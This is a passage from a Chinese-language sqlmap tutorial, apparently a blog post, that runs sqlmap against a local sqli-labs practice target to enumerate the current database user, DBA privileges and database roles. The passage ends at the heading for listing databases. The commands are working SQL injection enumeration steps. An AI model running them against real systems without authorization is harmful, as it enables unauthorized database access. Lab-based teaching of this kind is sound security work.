 

### 查看数据库当前用户(--current-user)



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
```




### ![](https://img-blog.csdnimg.cn/20181201215221948.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 判断当前用户是否有管理权限(--is-dba)



查看当前账户是否为数据库管理员账户



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```




### ![](https://img-blog.csdnimg.cn/20181202102739764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70) 



### 列出数据库管理员角色(--roles)



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   #列出数据库所有管理员角色
```




### ![](https://img-blog.csdnimg.cn/20181202103000471.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 查看所有的数据库(--dbs)


